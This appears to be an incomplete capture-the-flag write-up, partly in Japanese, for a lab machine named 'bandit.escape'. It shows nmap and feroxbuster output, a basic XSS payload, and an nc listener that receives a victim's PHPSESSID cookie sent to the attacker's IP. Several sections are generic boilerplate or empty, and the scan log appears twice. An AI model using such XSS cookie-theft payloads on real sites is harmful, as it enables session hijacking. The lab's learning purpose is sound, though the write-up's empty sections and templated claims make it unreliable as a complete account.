

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp   open  ssh, 80/tcp   open  http-proxy, 631/tcp  open  ipp, 8002/tcp open  hadoop-datanode |
| Primary Entry Vector      | upload-abuse |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
✅[0:14][CPU:2][MEM:28][IP:10.50.37.61][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 00:15 JST
Nmap scan report for bandit.escape (10.200.41.105)
Host is up (0.36s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 35:74:b3:23:4a:97:96:21:50:a6:39:a4:70:33:c6:31 (RSA)
|   256 68:81:8e:63:1b:e6:34:97:8e:1e:91:2b:0e:56:e7:be (ECDSA)
|_  256 66:cd:33:6d:df:60:0d:c9:30:1f:03:24:8a:c9:43:29 (ED25519)
80/tcp   open  http-proxy      Apache Traffic Server 7.1.1
|_http-title: BANDIT
|_http-server-header: ATS/7.1.1
631/tcp  open  ipp             CUPS 2.4
|_http-server-header: CUPS/2.4 IPP/2.1
|_http-title: Bad Request - CUPS v2.4.5
8002/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: login.php
|_http-title: BANDIT
| hadoop-tasktracker-info:
|_  Logs: login.php
Aggressive OS guesses: Linux 2.6.32 (99%), Linux 2.6.39 - 3.2 (99%), Linux 3.1 - 3.2 (99%), Linux 3.2 - 4.9 (99%), Linux 3.7 - 3.10 (99%), Linux 3.8 (99%), Synology DiskStation Manager 5.1 (Linux 3.2) (99%), Linux 4.15 - 5.8 (99%), Netgear ReadyNAS 2100 (RAIDiator 4.2.24) (99%), QNAP QTS 4.0 - 4.2 (99%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   244.39 ms 10.50.37.1
2   244.50 ms bandit.escape (10.200.41.105)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 647.57 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

ポートスキャン

```bash
✅[0:14][CPU:2][MEM:28][IP:10.50.37.61][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 00:15 JST
Nmap scan report for bandit.escape (10.200.41.105)
Host is up (0.36s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 35:74:b3:23:4a:97:96:21:50:a6:39:a4:70:33:c6:31 (RSA)
|   256 68:81:8e:63:1b:e6:34:97:8e:1e:91:2b:0e:56:e7:be (ECDSA)
|_  256 66:cd:33:6d:df:60:0d:c9:30:1f:03:24:8a:c9:43:29 (ED25519)
80/tcp   open  http-proxy      Apache Traffic Server 7.1.1
|_http-title: BANDIT
|_http-server-header: ATS/7.1.1
631/tcp  open  ipp             CUPS 2.4
|_http-server-header: CUPS/2.4 IPP/2.1
|_http-title: Bad Request - CUPS v2.4.5
8002/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: login.php
|_http-title: BANDIT
| hadoop-tasktracker-info:
|_  Logs: login.php
Aggressive OS guesses: Linux 2.6.32 (99%), Linux 2.6.39 - 3.2 (99%), Linux 3.1 - 3.2 (99%), Linux 3.2 - 4.9 (99%), Linux 3.7 - 3.10 (99%), Linux 3.8 (99%), Synology DiskStation Manager 5.1 (Linux 3.2) (99%), Linux 4.15 - 5.8 (99%), Netgear ReadyNAS 2100 (RAIDiator 4.2.24) (99%), QNAP QTS 4.0 - 4.2 (99%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   244.39 ms 10.50.37.1
2   244.50 ms bandit.escape (10.200.41.105)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 647.57 seconds
```

8002ポートでもwebサービス提供してた

```bash
✅[23:30][CPU:1][MEM:19][IP:10.50.37.61][/home/n0z0]
🐉 > feroxbuster -u http://bandit.escape -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bandit.escape
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       52l      224w     3302c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       57l      204w     2315c http://bandit.escape/login.php
200      GET        6l      567w    23409c http://bandit.escape/templates/bootstrap-theme.min.css
200      GET        7l      435w    36868c http://bandit.escape/templates/bootstrap.min.js
200      GET        6l     1415w    95992c http://bandit.escape/templates/jquery.min.js
200      GET        6l     1432w   121260c http://bandit.escape/templates/bootstrap.min.css
200      GET       25l      110w      960c http://bandit.escape/templates/header.php
200      GET        7l       35w      284c http://bandit.escape/templates/footer.php
200      GET        0l        0w        0c http://bandit.escape/auth.php
200      GET       21l      170w     1074c http://bandit.escape/LICENSE
200      GET        0l        0w        0c http://bandit.escape/uploads/drinks
200      GET        0l        0w        0c http://bandit.escape/20061024
200      GET        0l        0w        0c http://bandit.escape/templates/help_general
200      GET        0l        0w        0c http://bandit.escape/uploads/backup/2247
200      GET        0l        0w        0c http://bandit.escape/header_bg
[#>------------------] - 47m  2414769/32270126 9h      found:14      errors:306
[#>------------------] - 47m  2415685/32270126 9h      found:14      errors:306
[#>------------------] - 47m   388512/6793686 138/s   http://bandit.escape/
[#>------------------] - 47m   388012/5095276 138/s   http://bandit.escape/templates/
[#>------------------] - 47m   387728/5095276 138/s   http://bandit.escape/uploads/
[#>------------------] - 47m   387444/5095276 138/s   http://bandit.escape/public/
[#>------------------] - 46m   381064/5095276 138/s   http://bandit.escape/uploads/backup/
^C
```

8002でちょうさ

```bash
❌[1:02][CPU:3][MEM:28][IP:10.50.37.61][/home/n0z0]
🐉 > feroxbuster -u http://bandit.escape:8002 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list
-2.3-big.txt -t 50 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bandit.escape:8002
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       52l      224w     3302c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       57l      204w     2315c http://bandit.escape:8002/login.php
200      GET        7l      435w    36868c http://bandit.escape:8002/templates/bootstrap.min.js
200      GET        6l      567w    23409c http://bandit.escape:8002/templates/bootstrap-theme.min.css
200      GET        6l     1432w   121260c http://bandit.escape:8002/templates/bootstrap.min.css
200      GET        6l     1415w    95992c http://bandit.escape:8002/templates/jquery.min.js
200      GET       25l      110w      960c http://bandit.escape/templates/header.php
200      GET        7l      435w    36868c http://bandit.escape/templates/bootstrap.min.js
200      GET        6l     1415w    95992c http://bandit.escape/templates/jquery.min.js
200      GET        7l       35w      284c http://bandit.escape/templates/footer.php
200      GET        0l        0w        0c http://bandit.escape:8002/auth.php
200      GET       21l      170w     1074c http://bandit.escape:8002/LICENSE
[>-------------------] - 7m    375005/32270108 10h     found:11      errors:0
[>-------------------] - 7m     62604/6793668 148/s   http://bandit.escape:8002/
[>-------------------] - 7m     61128/5095276 146/s   http://bandit.escape/templates/
[>-------------------] - 7m     60904/5095276 147/s   http://bandit.escape/uploads/
[>-------------------] - 7m     60660/5095276 146/s   http://bandit.escape/public/
[>-------------------] - 6m     54200/5095276 146/s   http://bandit.escape/uploads/backup/
```

プレーンなXSSが刺さった

```
"><script>alert('1');</script>
```


*Caption: Screenshot captured during bandit attack workflow (step 1).*

XSS内でリバースシェルをぶち込むと刺さる

```
"><script>document.write('');</script>
```

だけどlsなどコマンドが返ってこない

✅[0:31][CPU:0][MEM:37][IP:10.50.37.61][/home/n0z0]
🐉 > nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.50.37.61] from (UNKNOWN) [10.50.37.61] 53594
GET /test.gif?cookie=PHPSESSID=06f8d1fa8707b471469acd9416e9da5f HTTP/1.1
Host: 10.50.37.61:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://bandit.escape/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- nc
- sudo
- ssh
- php
- GTFOBins
